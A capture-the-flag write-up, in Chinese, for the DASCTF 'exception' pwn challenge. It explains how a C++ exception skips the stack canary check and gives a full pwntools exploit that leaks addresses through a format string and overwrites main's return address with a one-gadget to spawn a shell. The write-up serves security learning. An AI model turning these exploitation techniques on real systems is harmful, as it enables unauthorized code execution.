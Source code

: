 ```yaml
---
title: DASCTF 4月赛 - exception 
date: 2024/4/21 23:54:00
tags:
    - c++ exception
excerpt: 利用C++异常处理漏洞，通过修改`main`函数返回地址实现提权。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.31-0ubuntu9.15|

## 解题思路

考察了C++的异常处理，由于给的信息较多，不一定需要利用异常机制

这道题中，`vuln`中的异常抛出后会被`main`中的catch接住，执行完毕后返回`main`，
因此可以保持`vuln`上内容不变，而写`main`函数的返回地址为OneGadget拿shell

另外，throw时不会对当前函数的stack frame上的Canary做检查

> 在dynamic_or_static上花的时间太久了，这道题没时间做了

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './exception'

def payload(lo:int):
    global sh
    if lo:
        if lo & 2:
            sh = gdb.debug(EXE, 'b if $rdi == $rebase(0x2086)')
        else:
            sh = process(EXE)
    else:
        sh = remote('', 9999)
    elf = ELF(EXE)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.15_amd64/libc.so.6')
    mainArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2

    sh.sendlineafter(b'name\n', b'%15$p,%12$p,%7$p')
    main, arena, canary = map(lambda x: int(x, 16), sh.recvline().decode().split(','))
    pieBase = main - elf.symbols['main']
    libcBase = arena - mainArena
    sh.recvuntil(b'stack\n')
    rsp = int(sh.recvline(), 16)
    success(GOLD_TEXT(f'Leak PIE base: {hex(pieBase)}'))
    success(GOLD_TEXT(f'Leak libc base: {hex(libcBase)}'))
    success(GOLD_TEXT(f'Leak canary: {hex(canary)}'))
    success(GOLD_TEXT(f'Leak rsp: {hex(rsp)}'))
    
    oneGadget = libcBase + 0xe3b04
    # after throw the control flow goes back to main, so we mod ret addr at main
    sh.send(b'0'*0x70 + p64(rsp + 0xa0) + p64(pieBase + elf.symbols['main'] + 168) + # leave rbp and ret addr unchanged
            p64(0) + p64(canary)*4 + p64(oneGadget))

    sh.clean()
    sh.interactive()
```
